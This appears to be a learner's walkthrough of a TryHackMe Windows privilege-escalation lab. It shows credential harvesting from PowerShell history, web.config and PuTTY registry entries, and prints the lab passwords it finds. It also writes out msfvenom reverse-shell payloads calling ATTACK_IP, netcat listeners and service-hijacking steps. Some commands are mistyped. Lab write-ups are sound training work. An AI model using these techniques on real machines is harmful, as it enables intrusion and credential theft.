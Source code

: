 Looking at our powershell history. This is actually easier from cmd.exe rather than powershell so I spawned a cmd prompt from powershell. but it is possible from PS. To quote the page:

"Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. "

PS C:\Users\thm-unpriv> cmd.exe
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm-unpriv>
C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
ls
whoami
whoami /priv
whoami /group
whoami /groups
cmdkey /?
**cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z**
cmdkey /list
cmdkey /delete:thmdc.local
cmdkey /list
runas /?
cmd.exe


cmdkey /list

gives us:

Domain:interactive = WPRIVESC1\mike.katz
Type: Domain Password
User: WPRIVESC1\mike.katz

Now we can run a cmd prompt as mike.katz:
runas /savecred /user:mike.katz cmd.exe 

This spawns another cmd.exe this time running as mike.katz and we can navigate to the C:\Users\mike.katz\Desktop and read the flag with
type flag.txt 

(type works a little like cat on Linux boxes)

I did Q2 out of order, but I don't suppose it matters.
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config>type web.config | findstr connectionString 

gives us the db_admin password:
connectionString="Server=thm-db.local;Database=thm-sekure;User ID=*db_admin*;Password=*098n0x35skjD3*" name="THM-DB"

Don't put credentials in code!

Q4 - This one needs to be done from the original thm-unpriv account:
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

leads us to the PuTTY session for thom.smith and password
CoolPass2021

The next page covers some other 'easy wins'

To exploit scheduled tasks you can list them 
schtasks

adding nc64.exe with your attacker IP and port to the vulntask's schtask.bat file and starting a nc -lvnp PORT on your attacking box will result in a reverse shell:

C:\Windows\system32>whoami                                                                                                                                    │
whoami                                                                                                                                                        │
wprivesc1\taskusr1   

Navigate to Desktop and read the flag:
              │
THM{TASK_COMPLETED} 

Insecure permissions on scheduler (service executable)

Here we find that the user can overwrite a service executable.

use msfvenom on attacking machine (set LHOST and LPORT to attack machine)

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=4445 -f exe-service -o rev-svc.exe

start a server
python3 -m http.Server 8000

and listener

nc -lvnp 4445

On remote machine:

wget:/Attack_IP:4445/rev-svc.exe -O rev-svc.exe

then move the old WService.exe and replace with rev-svc.exe (as shown on the page)

you can stop and start the service without waiting for restart. 

(sc is a shortcut so add .exe)

sc.exe stop windowsschduler
sc.exe start windowsscheduler

and you should get a reverse shell on your attack machine where you can whoami, navigate to that user's Desktop and get the flag!

C:\Users\svcusr1\Desktop>type flag.txt
THM{AT_YOUR_SERVICE}

The next vulnerability exploits how windows treats service names with spaces in. disk searcher enterprise will first try to run disk, then disk searcher, then disk searcher enterprise etc. So if we can sneak an executable in called disk.exe it will be by the service instead of disk searcher etc.

make a payload on attacking machine:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=4446 -f exe-service -o rev-sv2.exe 
nc -lvnp 4446

whisk it over to the remote machine and save in C:\MyPrograms\ as Disk.exe
grant permissions
icacls C:\MyPrograms\Disk.exe /grant Everyone:F

stop and then start the "disk sorter enterprise" service.

Remember to use sc.exe if using Powershell as 'sc' is mapped as a shortcut to Set-Content commandlet

Get flag from user desktop:
type C:\Users\svcusr2\Desktop\flag.txt 

THM{QUOTES_EVERYWHERE}